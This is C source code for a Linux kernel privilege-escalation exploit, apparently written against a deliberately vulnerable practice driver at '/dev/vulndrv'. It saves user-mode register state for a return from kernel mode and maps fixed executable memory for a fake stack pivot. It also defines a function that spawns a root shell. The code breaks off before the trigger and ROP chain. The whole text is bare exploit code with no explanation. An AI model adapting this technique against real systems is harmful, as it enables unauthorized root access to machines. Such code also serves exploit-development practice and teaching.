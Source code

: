   ```c
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>
  #include <unistd.h>
  #include <errno.h>
  #include <sys/mman.h>
  #include <assert.h>
  #include "drv.h"

  #define DEVICE_PATH "/dev/vulndrv"

  unsigned long user_cs;
  unsigned long user_ss;
  unsigned long user_rflags;

  static void save_state() {
    asm(
    "movq %%cs, %0\n"
    "movq %%ss, %1\n"
    "pushfq\n"
    "popq %2\n"
    : "=r" (user_cs), "=r" (user_ss), "=r" (user_rflags) : : "memory" 		);
  }

  void shell(void) {
    if(!getuid()) { // mean rooted
      system("/bin/sh");
    }

    exit(0);
  }

  void usage(char *bin_name) {
    fprintf(stderr, "%s array_base_address_hex array_offset_decimal ret_inst_operand_hex \n", bin_name);
  }

  int main(int argc, char *argv[])
  {
    int fd;
    struct drv_req req;
    void *mapped, *temp_stack;
    unsigned long base_addr, stack_addr, mmap_addr, *fake_stack;
    unsigned long ret_inst_operand;

    if (argc != 4) {
      usage(argv[0]);
      return -1;
    }

    base_addr  = strtoul(argv[1], NULL, 16);
    req.offset = strtoul(argv[2], NULL, 10);
    ret_inst_operand = strtoul(argv[3], NULL, 16);

    printf("array base address = 0x%lx\n", base_addr);
    stack_addr = (base_addr + (req.offset * 8)) & 0xffffffff;
    fprintf(stdout, "stack address = 0x%lx\n", stack_addr);

    mmap_addr = stack_addr & 0xffff0000;
    assert((mapped = mmap((void*)mmap_addr, 0x20000, 7, 0x32, 0, 0)) == (void*)mmap_addr);
    assert((temp_stack = mmap((void*)0x30000000, 0x10000000, 7, 0x32, 0, 0)) == (void*)0x30000000);

    save_state();
  ```